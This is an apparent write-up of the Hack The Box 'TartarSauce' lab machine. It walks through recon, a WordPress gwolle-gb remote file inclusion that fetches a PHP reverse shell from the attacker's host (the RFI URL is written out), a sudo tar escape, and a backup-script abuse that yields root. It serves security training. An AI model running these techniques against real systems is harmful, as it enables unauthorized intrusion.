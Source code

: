 # HTB: Tartersauce Writeup w/o Metasploit
!![tartarsauce](https://user-images.githubusercontent.com/48168337/178492785-2127e6a5-eb5a-4e29-8e75-85433288b32f.jpg)


## Introduction
As always, we are going to start this box off with some nmap scans. 

![nmap_80](https://user-images.githubusercontent.com/48168337/178493633-a762121d-4262-476c-9203-0bc995c52f69.JPG)
(*nmap -n -Pn 10.10.10.88 open -oN basic-10.10.10.88*)

A basic nmap scan shows us port 80 is open. If you're not familiar, port 80 is a protocol used for web services, it's also unencrypted. Before taking a look at 10.10.10.88 from a web browser, I added it to my host file as *tartarsauce.htb*, you'll see that in the image below.

![hosts](https://user-images.githubusercontent.com/48168337/178494584-f82fbccf-d052-4d88-8cbd-fee61531709c.png)

As you can see, there isn't much here on the web page but a bottle of tartarsauce. 

![webpage](https://user-images.githubusercontent.com/48168337/178494933-163db970-3bf5-44b3-8c80-c1c27da67d90.png)

What next? Well, we can always go back and run specific nmap scans. But before doing that lets use gobuster, a web directory scanner. Why gobuster? We know 10.10.10.88 is a web server and web servers tend to have other directories hosting different content. Gobuster will show other directories that may be available.

![gobuster01](https://user-images.githubusercontent.com/48168337/178496201-29e9a01c-611a-4003-8ecb-1ef93e2a77ad.png)

Gobuster reveals another directory named *webservices*. I tried to access it but kept getting "permission denied." Let’s run gobuster again but this time against the webservices directory (*10.10.10.88/webservices*).

![image](https://user-images.githubusercontent.com/48168337/178737208-c1b563c1-7d00-4046-92c8-3364c66468cb.png)

Looks like WordPress is running on this box. Gobuster returns a WordPress (*wp*) directory. 

![image](https://user-images.githubusercontent.com/48168337/178737359-d3dbd1c4-dd8a-4b16-b9f6-6c5027bb76fe.png)

There wasn't really much information here on this web page. So, what we did next was run a WordPress scan to look for common vulnerabilities. Kali comes with a WordPress scanner called *wpscan*, it's pretty simple and straightforward to use. 

I used this command (*wpscan --url http://10.10.10.88/webservices/wp/ -e ap --plugins-detection aggressive*) to run the WordPress scan.

Out of all the wpscan results. The most interesting was the *gwolle-gb* plugin. 

![wpscan](https://user-images.githubusercontent.com/48168337/178739809-cae0dbde-428e-4fd6-a707-c3f7e16ae847.png)

Further research shows that the plugin has a remote file inclusion vulnerability. 

![searchsploit](https://user-images.githubusercontent.com/48168337/178740548-c7364d2c-db4e-44fd-8418-154cf49d5396.png)

![rfi](https://user-images.githubusercontent.com/48168337/178740898-97f2d0dc-7d0c-46fd-8f5a-5edaccd16254.png)

All we need to do to exploit the RFI vulnerability, is (1) Create a php reverse shell (we copied it from a default location, check screenshot below). (2) Rename it to wp-load.php. (3) Change the IP and Port information within the script to your IP and listening port. (4) Start up a netcat listener (5) Start up a webserver that's hosting our wp-load.php file. (6) Execute this url (*http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.3:8000/*) from a web browser. Before executing it, make sure you change the 10.10.14.3:8000 to your IP and port number you're hosting your web service on. 

![steps-to-rfi](https://user-images.githubusercontent.com/48168337/178742794-c1facde0-c907-44e1-827c-498b8628e5f4.png)

![initial-shell](https://user-images.githubusercontent.com/48168337/178743318-6e355803-c968-45e8-884e-0e0257ec892b.png)

Boom, we successfully exploited the RFI vulnerability. Now, how do we escalate our privileges to root? One of the first things to check on a Linux box are sudo permissions. Running <mark > sudo -l</mark>. 

![sudo -l](https://user-images.githubusercontent.com/48168337/178985751-6ce3c8f3-61e0-4003-83f4-47915dbc7075.png)

After running it, you'll notice the user *onuma* can run /bin/tar as root. And we can exploit this, using [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), to break out of our current shell into one as onuma.

![gtfobins](https://user-images.githubusercontent.com/48168337/178985995-d65f6f17-3f8f-4d9d-b52b-ff35fa740bc8.png)

![sudo tar](https://user-images.githubusercontent.com/48168337/178986616-bbddc440-e788-442c-be8d-1c5e91c03634.png)

Now we have a shell as *onuma*. How do we escalate our privileges now? Well, after running linuenum.sh to find vulnerabilities/misconfigurations we found a script called <mark> /usr/sbin/backuperer</mark>. This script appears to be using onuma's sudo powers to tar up content within /var/www/html into /var/tmp. Its tarring it up under a random file name and then extracting it to a directory named check. Also, the script runs every 5 minutes. To exploit this, we have to create a directory structure similar to what the script is looking for, within that directory will be our payload. We will tar it up, set suid permissions on the file, and transfer it to our target machine. When the script creates the random tarred file, we will copy our tarred payload over the tarred file. The script will then take our tarred payload and extract it into the check directory it creates. Please make sure to watch our [video walkthrough ](https://youtu.be/DLPgQ9ooxCQ)  so you can actually see this in action. 

Below is a screenshot of me creating and tarring up the exploit locally on my kali machine.

![exploit](https://user-images.githubusercontent.com/48168337/178989727-29682bf8-d8d4-4f50-b0a6-98dd98136019.png)

I then transferred the file using netcat to my victim machine. FYI: I changed the name of the file.

![transfer-file](https://user-images.githubusercontent.com/48168337/178990051-f856a556-4967-470a-a674-bfdebf669cfd.png)

![retrieve-file](https://user-images.githubusercontent.com/48168337/178990570-c5cfbb93-ac26-465b-a4f4-a8234592d19a.png)

Now that my tarred file is on the victim box, I have to wait 5 minutes for the script to create the random tarred file that it will try to extract into directory named check.

Below you'll see us copy our tar file over the random file name that was created by the script.
![copy exploit](https://user-images.githubusercontent.com/48168337/178991491-85eb2bfd-ee8b-4d36-8371-ec3a49f34cef.png)

Now you'll see the check directory that was created. Keep in mind, our exploit was extracted into this directory.
![check-dir](https://user-images.githubusercontent.com/48168337/178991550-ab822e58-3a35-472b-bf28-65126775d4d0.png)

And boom! Our exploit is within the check directory. After executing it, we have a shell as root.
![root-shell](https://user-images.githubusercontent.com/48168337/178991878-72f1d9a8-fb60-46a0-a9a8-0dce15226852.png)

Tartarsauce was a cool box to play with. Personally, the level of difficulty depends on your scripting skills and experience. Depending on how familiar you were with bash scripts, this box could have been straightforward or really difficult. Hopefully, you enjoyed this writeup. [Here](https://youtu.be/DLPgQ9ooxCQ) is a link to the video walkthrough.
